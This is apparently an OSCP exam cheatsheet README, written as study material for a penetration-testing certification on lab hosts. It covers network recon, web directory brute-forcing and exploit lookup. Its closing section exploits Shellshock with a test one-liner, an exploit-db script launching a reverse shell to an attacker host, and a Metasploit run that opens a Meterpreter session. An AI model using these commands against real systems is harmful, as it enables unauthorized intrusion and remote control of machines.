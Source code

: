 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Introduction](#introduction) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists


### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

Services enum:
* SSH (22): Fingerprint server/OS, SSH key
* HTTP (80|8080): Curl for HTTP header
* Telnet (23):
* SMTP (25):
* Service (port):

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FINDING AN EXPLOIT TO USE

Nikto webapp scanner:
```bash
$ nikto -host 10.11.1.71
```

Searchsploit (exploit-db):
```bash
# BASE EXAMPLE
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# APACHE 2.4.8 EXAMPLE
$ searchsploit apache 2.4 | grep -v '/dos/'
$ searchsploit apache 2.x | grep -v '/dos/'

# APACHE | CGI
$ searchsploit apache cgi | grep -v '/dos/'

# WORKING EXPLOIT CODE FOUND IN:
/usr/share/exploitdb/platforms/linux/remote/34900.py
```

Nmap:
```bash
$ ls -l /usr/share/nmap/scripts/*shellshock*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

METHOD #1: MANUAL
```bash
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id	# Src: Github one-liner
```

METHOD #2: EXPLOIT-DB
```bash
$ cp /usr/share/exploitdb/platforms/linux/remote/34900.py alpha.py
$ python alpha.py payload=reverse rhost=10.11.1.71 lhost=10.11.0.31 lport=4444 pages=/cgi-bin/admin.cgi
10.11.1.71>
```

METHOD #3: METASPLOIT (NOT PREFERRED)
```bash
$ systemctl start postgresql
$ msfdb init
$ msfdb start
$ msfconsole
msf > search shellshock
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > show options
. . .
. . .
msf exploit(...) > set RHOST 10.11.1.71
msf exploit(...) > set TARGETURI /cgi-bin/admin.cgi
msf exploit(...) > set LHOST 10.11.0.4
msf exploit(...) > set LPORT 443
msf exploit(...) > show options
. . .
. . .
msf exploit(...) > run
[*] Started reverse TCP handler on 10.11.0.42:443
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (826872 bytes) to 10.11.1.71
[*] Meterpreter session 1 opened (10.11.0.42:443 -> 10.11.1.71:34930) at 2018-12-18 13:53:55 +1100
meterpreter >
```
